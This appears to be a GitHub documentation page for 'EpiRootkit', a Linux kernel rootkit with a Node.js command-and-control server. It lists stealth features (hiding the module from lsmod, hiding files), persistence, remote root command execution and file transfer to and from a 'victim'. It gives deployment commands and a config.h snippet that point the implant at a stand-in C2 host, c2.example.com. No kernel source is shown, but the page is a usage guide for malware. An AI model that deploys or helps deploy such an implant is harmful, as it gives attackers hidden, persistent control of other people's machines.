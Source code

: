 ```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 501
---
```


# EpiRootkit

Linux kernel rootkit implementation for Ubuntu 20.04 LTS (kernel 5.4.0).

## Features

- **C2 Communication**: TCP connection with domain support and XOR encryption
- **DNS Resolution**: Kernel-space domain name resolution
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **XOR Encryption**: 32-byte key encryption for all C2 traffic
- **Stealth**: Hide module from `lsmod` and files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots

## Quick Demo

```bash
# 1. Build and deploy with XOR encryption enabled
cd rootkit && make
sudo ./deploy_rootkit.sh address=c2.example.com port=443

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use rootkit (all communication XOR encrypted)
auth Client-1 password
# SUCCESS: Authentication successful

exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Module Hidden: YES, Encryption: XOR
```

## Architecture

### Core Components
- **Network Layer**: Connection management and DNS resolution
- **Command System**: Authentication and remote execution
- **Stealth Features**: Module and file hiding
- **Persistence**: Boot survival mechanisms

### Communication Flow
```
C2 Server  ←→  Network/DNS  ←→  EpiRootkit  ←→  Linux Kernel
(Node.js)      (TCP/UDP)       (Module)        (System Calls)
```

## Technical Stack

- **Target**: Ubuntu 20.04 LTS, kernel 5.4.0, x86_64
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs**: ftrace, kretprobe, VFS, UDP sockets
- **Network**: TCP (C2) + UDP (DNS resolution)
- **Encryption**: XOR cipher with 32-byte hardcoded key
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)

## Configuration

Edit `rootkit/core/config.h`:
```c
#define C2_SERVER_ADDRESS "c2.example.com"  // Domain or IP
#define C2_SERVER_PORT 4444
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_MODULE_HIDING 1     // Hide by default
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Documentation

- **[Deployment](./deployment.md)**: Build and load with domain support
- **[Connection](./connection-authentication.md)**: Network communication and XOR encryption
- **[XOR Encryption](./features/encryption.md)**: XOR encryption implementation
- **[DNS Resolution](./features/dns-resolution.md)**: Domain name resolution
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms


